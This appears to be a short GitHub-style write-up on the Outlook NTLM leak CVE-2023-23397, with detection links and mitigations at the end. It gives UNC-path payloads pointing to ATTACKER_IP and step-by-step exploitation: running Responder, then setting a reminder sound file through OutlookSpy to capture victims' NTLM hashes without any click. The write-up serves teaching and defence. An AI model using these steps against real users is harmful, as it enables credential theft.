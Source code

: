 ## Outlook NTLM Leak CVE-2023-23397

### Tools: Responder, Outlook Appointment Alerts, OutlookSpy Plugin

### Affects all version of the Outlook desktop app on any Windows System.

### Exploit method: Zero-click

### Explanation:

#### 1) When sending calendar invitations, it is possible to add reminder notifications.

#### Go to the "reminder sound: at reminder tab.

#### 2) You can specify the audio file played when a user gets a notification reminder for a calendar meeting or event.

## Abusing reminder sounds via UNC paths (Universal Naming Convention)

### Payload example:

#### 1) \\ATTACKER_IP\foo\bar.wav

#### 2) \\ATTACKER_IP@80\foo\bar.wav

#### 3) \\ATTACKER_IP@443\foo\bar.wav

### 2 and 3 examples are alternatives to SMB protocol that use HTTP and HTTPS to retrieve the file from a WebDAV enabled webserver.

### Exploitation:

#### 1) sudo responder -I INTERFACE

#### 2) On our outlook client, click the calendar, then new appointment to create one.

#### 3) Set the reminder to 0 minutes so that it triggers right after the victim receives it.

#### 4) Click on the sound option to configure the reminder's sound file

#### 5) Set the sound file path to a UNC that points to us \\OUR_IP\nonexistent\whatever.wav then click OK

#### 6) Install OutlookSpy* (Since the previous steps usually won't work as we want) *Close Outlook before installing the plugin

#### 7) Open Outlook, then go to OutlookSpy and then the CurrentItem button (within the appointment)to view our appointment 

#### 8) Set the ReminderSoundFile parameter to the UNC path that points to us, then set both ReminderOverrideDefault and ReminderPlaySound to true using the script tab.

#### 9) Click run to apply the changes.

#### 10) Go back to properties tab to verify the values were correctly changed.

#### 11) Save our appointment to add it to our calendar, then adjust the time, date and reminder trigger accordingly.

## Detection:

#### 1) Sigma rules: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_rundll32_webdav_client_susp_execution.yml

#### 2) YARA rules

#### 3) Powershell script: https://microsoft.github.io/CSS-Exchange/Security/CVE-2023-23397/

## Mitigation:

#### 1) Add users to the Protected Users Security Group, which prevents using NTLM as an authentication mechanism

#### 2) Block TCP 445/SMB outbound from your network to avoid any post-exploitation connection.

#### 3) Use the PowerShell script released by Microsoft to scan against the Exchange server to detect any attack attempt.

#### 4) Disable WebClient service to avoid webdav connection.
